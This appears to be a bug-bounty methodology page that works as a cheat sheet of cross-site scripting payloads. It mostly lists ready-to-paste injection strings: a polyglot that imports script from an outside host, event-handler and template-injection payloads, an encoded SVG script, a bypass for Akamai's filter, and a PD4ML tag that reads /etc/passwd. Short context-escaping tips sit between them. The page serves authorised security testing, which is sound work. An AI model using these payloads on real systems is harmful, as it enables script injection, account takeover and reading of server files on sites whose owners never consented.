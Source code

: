 ### XSS all in one
```
JavaScript://%250A/*?'/*\'/*"/*\"/*`/*\`/*%26apos;)/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(import(/https:\\http://X55.is/.source))}//\76-->
```
### XSS payloads
`https://github.com/foospidy/payloads/tree/master/other/xss`
### Payload list
```
"style="position:fixed;top:0;left:0;border:999em solid green;" onmouseover="alert(document.domain)"
{{_c.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<body onpageshow=alert(1)>
<details open ontoggle="alert()">

HTML5 payloads
<video autoplay onloadstart="alert()" src=x></video>
<audio autoplay controls onplay="alert()"><source src="http://mirrors.standaloneinstaller.com/video-sample/lion-sample.mp4"></audio>
<embed src="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcvMjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg=="></embed>

```
#### XSS escalation
`https://www.bugcrowd.com/blog/the-ultimate-guide-to-finding-and-escalating-xss-bugs/`
### Quick simple payload to use 
`"samsec%25%25"><u>`
### XSS mindmap
`https://raw.githubusercontent.com/cyberspacekittens/XSS/master/XSS2.png`
### XSS ployglot
```
\u0022\u003c%26quot;%26gt;%26lt;"';}};"></ScRipt><svg/oNLoad=confirm(69)>${{7*7}}
```

#### XSS in SVG image 
![image](https://github.com/Sameer484/methodology/assets/110039044/e40a3018-7707-457b-a054-bf3bb3832674)


##### If there is reflected value in the iframe src but akamai blocks it, we can try to bypass it using below payload
````
link=qwe"srcdoc="\u003ce<script%26Tab;src=//dom.xss>\u003ce</script%26Tab;e>

````
![Screenshot from 2023-06-16 18-53-58](https://github.com/Sameer484/methodology/assets/110039044/58c56999-42da-4fcb-a447-b11f9e223984)

#### If you found jinja2 templating engine being used , then see if the double quote is placed when using templating syntax in attribute. If directly {{name}} is being used then we can use "x eventhandler=alert(1)" to execute xss. Using space we can escape the attribute.
````
<input type={{name}}>         ==> vulnerable code
<input type="{{name}}" >      ==> well secure code
````


#### There a small quirk in DOM xss
```
IF you see this code snippet
let a =createElement('div');
a.innerHTML="variable here"
b=sanitize(a);
and add to dom after here

we can execute xss before the sanitize or adding to dom. <img src=x onerror=alert(1)> actually executes before appending to the dom.
```

---
#### Quick tips
- See the reflected value and open inspect element. Search(ctrl+f) for the entered keywords and trace where is it being used.
- If the value is being set to variable , we can escape it and enter javascript
  ````
  var a= "hacked"    //hacked is searched keyword in search bar and it is being assigned here like this.

  we can escape it using
     hacked";alert(2)//
  ````

- If no value are reflected in the response , then test for DOM based XSS. Open DOM Invador and enter the canary value in the search bar or anywhere in the query parameter.
- See if the website is built with Angular js. Now see if the reflected payload is inside the  ng-app directive{\<div ng-app> hacked(this is reflected value)}, check for {{7*7}} CSTI and if DOM is reflected with 49, then it's confirmed that CSTI is possible. 
 
  ---
 - XSS Basic Payload  ( anything'"<x</   )
## XSS in PDF generation using PD4ML library
The normal javascript injection doesn't work with pd4ml, but there is way to add attachment to the pdf. This way we can read internal files.
`<pd4ml:attachment src=”file:///etc/passwd”><pd4ml:attachment>`
